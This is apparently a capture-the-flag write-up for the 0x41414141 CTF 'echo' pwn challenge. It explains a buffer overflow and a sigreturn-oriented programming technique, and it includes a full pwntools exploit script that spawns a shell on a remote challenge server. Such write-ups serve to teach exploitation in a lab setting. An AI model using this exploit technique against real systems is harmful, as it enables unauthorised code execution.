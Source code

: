 ## 0x41414141 CTF: echo [pwn]
> tell me something to say it back

#### I solved the challenge after the ctf ended. We were given only a binary to work with and upon reversing reveals only a few things. It reads input and prints it out using syscalls then exits. There are only little gadgets to work with, but we do have a /bin/sh string in memory. The read syscall reads in 0x300 bytes of input into a 0x188 sized buffer thus we have an overflow.

#### The solution was to perform a sigrop attack, similar to the moving signals challenge. But the catch here is that we have no gadget to set the rax register. What we do then is to do a rop first back into the beginning of the echo function (function that gets user input) and provide only 15 bytes of input. This way, the read syscall sets the rax register into the amount of bytes that was provided in the input. We will also place the fake sigreturn frame on the stack before the rop so that the proper registers will be set. 

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./echo', checksec = False)

#p = process('./echo')
p = remote("161.97.176.150", 9090)

#: GDB SETTINGS
breakpoints = ['break *echo']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
syscall = 0x0000000000401022

#: PWN THY VULNS
context.binary = binary
sigframe = SigreturnFrame()
sigframe.rax = 0x3b
sigframe.rdi = 0x401035
sigframe.rsi = 0 
sigframe.rdx = 0
sigframe.rip = syscall

exploit = cyclic(392)
exploit += p64(binary.symbols['echo']) #: GETS USER INPUT AGAIN
exploit += p64(syscall) #: SEND 15 BYTES ON THE USER INPUT TO SET RAX TO 0xF
exploit += str(sigframe)

#: SEND THE EXPLOIT CHAIN THEN MANUALLY SEND 15 BYTES OF DATA TO POP A SHELL
p.send(exploit)
p.interactive()
```

![](echo_shell.png)